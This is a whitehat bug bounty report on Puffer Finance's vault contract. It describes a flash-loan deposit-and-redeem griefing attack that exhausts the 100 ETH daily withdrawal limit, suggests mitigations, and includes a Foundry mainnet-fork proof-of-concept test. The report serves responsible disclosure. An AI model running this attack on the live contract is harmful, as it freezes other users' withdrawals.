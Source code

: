 # Blocking redeem/withdraw from vault
Submitted about 2 months ago by @ox7a69 (Whitehat) for Boost | Puffer Finance

Report ID: #28656

Report type: Smart Contract

Has PoC? Yes

Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

# Impacts
- Temporary freezing of funds for at least 1 hour

# Details
Description

# Vulnerability Details
The attacker can deplete daily withdrawal limit by taking flash loan, making a deposit and an immediate withdrawal. There is no risks or fees involved for the attacker. This behavior prevents benign users from redeeming/withdrawing from the vault.

By default there is a `100 ETH` daily limit for withdrawal.

```
function initialize() public reinitializer(2) {
    // In this initialization, we swap out the underlying stETH with WETH
    ERC4626Storage storage erc4626Storage = _getERC4626StorageInternal();
    erc4626Storage._asset = _WETH;

    _setDailyWithdrawalLimit(100 ether);  // @audit
    _updateDailyWithdrawals(0);
}
```

To mitigate the issue:

- Replenish the daily limit whenever a mint/deposit occur.
- Prohibit flash deposit-redeem actions taking place in one tx.

# Proof of concept
Proof of Concept
To run the PoC place the file inside `test/Integration/Immunefi.fork.t.sol` and run the following command.

`ETH_RPC_URL=URL forge test --mp test/Integration/Immunefi.fork.t.sol --mt test_griefing  --fork-url URL --fork-block-number 19285430`

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.8.0 <0.9.0;

import { TestHelper } from "../TestHelper.sol";

import "forge-std/console.sol";

contract Immunefi is TestHelper {

    error ERC4626ExceededMaxRedeem(address owner, uint256 shares, uint256 max);

    // ETH_RPC_URL=URL forge test --mp test/Integration/Immunefi.fork.t.sol --mt test_griefing  --fork-url URL --fork-block-number 19285430
    function test_griefing() public {
        address attacker = address(101);
        address user = address(102);

        vm.deal(user, 10 ether);

        // 1. User deposits ETH.
        vm.startPrank(user);
        uint256 shares = pufferVault.depositETH{value: 10 ether}(user);
        vm.stopPrank();

        // 2. Attacker takes flash loan, deposits and then redeems.
        //    No loses/risks/fees for the attacker.
        //    Attacker depletes daily withdraw limit, which is 100 ETH by default.
        vm.deal(attacker, 100 ether);
        vm.startPrank(attacker);
        uint256 shares_attacker = pufferVault.depositETH{value: 100 ether}(attacker);
        pufferVault.redeem(shares_attacker, attacker, attacker);
        vm.stopPrank();

        // 3. No one can redeem/withdraw.
        vm.startPrank(user);
        vm.expectRevert(
            abi.encodeWithSelector(ERC4626ExceededMaxRedeem.selector, user, shares, pufferVault.maxRedeem(user))
        );
        pufferVault.redeem(shares, user, user);
        vm.stopPrank();
    }
}
```
